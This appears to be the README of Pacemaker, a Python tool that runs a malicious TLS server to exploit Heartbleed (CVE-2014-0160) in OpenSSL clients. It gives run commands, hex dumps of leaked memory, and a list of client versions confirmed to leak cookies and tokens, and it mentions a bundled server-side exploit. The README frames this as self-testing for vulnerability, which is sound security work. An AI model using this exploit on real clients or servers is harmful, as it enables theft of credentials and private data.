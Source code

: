 # Pacemaker
Attempts to abuse OpenSSL *clients* that are vulnerable to [Heartbleed][0]
([CVE-2014-0160][1]). Compatible with Python 2 and 3.

## Am I vulnerable?
Run the server:

    python pacemaker.py

In your client, open https://localhost:4433/ (replace the hostname if needed).
For example:

    curl https://localhost:4433/

The client will always fail to connect:

    curl: (35) Unknown SSL protocol error in connection to localhost:4433

If you are not vulnerable, the server outputs something like:

    Connection from: 127.0.0.1:40736
    Possibly not vulnerable

If you *are* vulnerable, you will see something like:

    Connection from: 127.0.0.1:40738
    Client returned 65535 (0xffff) bytes
    0000: 18 03 03 40 00 02 ff ff 2d 03 03 52 34 c6 6d 86  ...@....-..R4.m.
    0010: 8d e8 40 97 da ee 7e 21 c4 1d 2e 9f e9 60 5f 05  ..@...~!.....`_.
    0020: b0 ce af 7e b7 95 8c 33 42 3f d5 00 c0 30 00 00  ...~...3B?...0..
    0030: 05 00 0f 00 01 01 00 00 00 00 00 00 00 00 00 00  ................
    0040: 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00  ................
    *
    4000: 00 00 00 00 00 18 03 03 40 00 00 00 00 00 00 00  ........@.......
    8000: 00 00 00 00 00 00 00 00 00 00 18 03 03 40 00 00  .............@..
    ...
    e440: 1d 2e 9f e9 60 5f 05 b0 ce af 7e b7 95 8c 33 42  ....`_....~...3B
    e450: 3f d5 00 c0 30 00 00 05 00 0f 00 01 01 00 00 00  ?...0...........
    fff0: 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00     ...............


Subsequent lines full of NUL bytes are folded into one with an `*` thereafter
(like the `xxd` tool).

An example where more "interesting" memory gets leaked using
`wget -O /dev/null https://google.com https://localhost:4433`:

    Connection from: 127.0.0.1:41914
    Client returned 65535 (0xffff) bytes
    0000: 18 03 03 40 00 02 ff ff 2d 03 03 52 34 c6 6d 86  ...@....-..R4.m.
    0010: 8d e8 40 97 da ee 7e 21 c4 1d 2e 9f e9 60 5f 05  ..@...~!.....`_.
    0020: b0 ce af 7e b7 95 8c 33 42 3f d5 00 c0 30 00 00  ...~...3B?...0..
    0030: 05 00 0f 00 01 01 65 0d 0a 43 6f 6e 74 65 6e 74  ......e..Content
    0040: 2d 54 79 70 65 3a 20 74 65 78 74 2f 68 74 6d 6c  -Type: text/html
    0050: 3b 20 63 68 61 72 73 65 74 3d 55 54 46 2d 38 0d  ; charset=UTF-8.
    ...
    0b50: 01 05 05 07 02 01 16 2d 68 74 74 70 73 3a 2f 2f  .......-https://
    0b60: 77 77 77 2e 67 65 6f 74 72 75 73 74 2e 63 6f 6d  www.geotrust.com
    0b70: 2f 72 65 73 6f 75 72 63 65 73 2f 72 65 70 6f 73  /resources/repos
    0b80: 69 74 6f 72 79 30 0d 06 09 2a 86 48 86 f7 0d 01  itory0...*.H....
    0b90: 01 05 05 00 03 81 81 00 76 e1 12 6e 4e 4b 16 12  ........v..nNK..
    0ba0: 86 30 06 b2 81 08 cf f0 08 c7 c7 71 7e 66 ee c2  .0.........q~f..
    0bb0: ed d4 3b 1f ff f0 f0 c8 4e d6 43 38 b0 b9 30 7d  ..;.....N.C8..0}
    0bc0: 18 d0 55 83 a2 6a cb 36 11 9c e8 48 66 a3 6d 7f  ..U..j.6...Hf.m.
    0bd0: b8 13 d4 47 fe 8b 5a 5c 73 fc ae d9 1b 32 19 38  ...G..Z\s....2.8
    0be0: ab 97 34 14 aa 96 d2 eb a3 1c 14 08 49 b6 bb e5  ..4.........I...
    0bf0: 91 ef 83 36 eb 1d 56 6f ca da bc 73 63 90 e4 7f  ...6..Vo...sc...
    0c00: 7b 3e 22 cb 3d 07 ed 5f 38 74 9c e3 03 50 4e a1  {>".=.._8t...PN.
    0c10: af 98 ee 61 f2 84 3f 12 00 00 00 00 00 00 00 00  ...a..?.........
    0c20: 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00  ................
    *
    4000: 00 00 00 00 00 18 03 03 40 00 00 00 00 00 00 00  ........@.......
    ...
    ffd0: 00 00 00 00 5c d3 3c 02 00 00 00 00 49 53 4f 36  ....\.<.....ISO6
    ffe0: 34 36 2d 53 45 2f 2f 00 53 45 4e 5f 38 35 30 32  46-SE//.SEN_8502
    fff0: 30 30 5f 42 2f 2f 00 00 00 00 00 00 00 00 00     00_B//.........

## Advanced usage
Run `./pacemaker.py -h` for more options. The most important options are
probably `-t` (`--timeout`) and `-x` (`--count`). The default timeout is 3
seconds which should be enough for most clients to respond (unless there is a
satellite link or something).

Example to be more patient per heartbeat (5 seconds) and acquire four heartbeat
responses:

    ./pacemaker.py -t 5 -x 4

In theory, the heartbeats can take twenty seconds now, but in practice you will
get responses much faster.

## Tested clients
The following clients have been tested against OpenSSL 1.0.1f on Arch Linux and
leaked memory before the handshake:

 - MariaDB 5.5.36
 - wget 1.15 (leaks memory of earlier connections and own state)
 - curl 7.36.0
 - git 1.9.1 (tested clone / push, leaks not much)
 - nginx 1.4.7 (in proxy mode, leaks memory of previous requests)
 - links 2.8 (leaks contents of previous visits!)

links is a great example that demonstrates the effect of this bug on clients. It
is a text-based browser that leaks details including headers (cookies,
authorization tokens) and page contents.

# ssltest.py
This repository also contains a working version that targets servers. ssltest.py
was created by Jared Stafford (<jspenguin@jspenguin.org>), all due credits are
to him! It was retrieved from http://s3.jspenguin.org/ssltest.py.

At the moment, the script is only compatible with Python 2.

  [0]: http://heartbleed.com/
  [1]: https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2014-0160
